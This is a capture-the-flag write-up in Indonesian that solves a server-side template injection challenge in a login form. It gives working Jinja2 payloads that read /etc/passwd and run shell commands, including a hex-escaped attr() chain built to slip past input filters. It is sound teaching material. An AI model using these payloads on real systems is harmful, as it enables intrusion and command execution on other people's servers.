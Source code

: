 # SSTI 2

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

File terkait: ![SSTI2](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Input payload SSTI sederhana, misal: `{{7*9}}` pada field username atau password.

   ![Test Payload](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.1.png)

3. Jika output pada halaman berubah menjadi `63`, maka aplikasi rentan SSTI.

   ![Output](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.2.png)
   
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```

   ![Eksploitasi File]([SSTI1/SSTI1.3.png](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.3.png))
   
5. Ternyata payload diatas telah terblok karena beberapa tanda, cara untuk mengelabuinya adalah menggunakan unicode.
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
   ```
   ![Berhasil](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.4.png)

6. Kita menggunakan payload lain yang dapat membaca flag tersebut
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

   ```
   ![flag](https://github.com/masibelajar/KWA-A-2025/blob/main/d2/SSTI2.5.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

## Referensi


- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
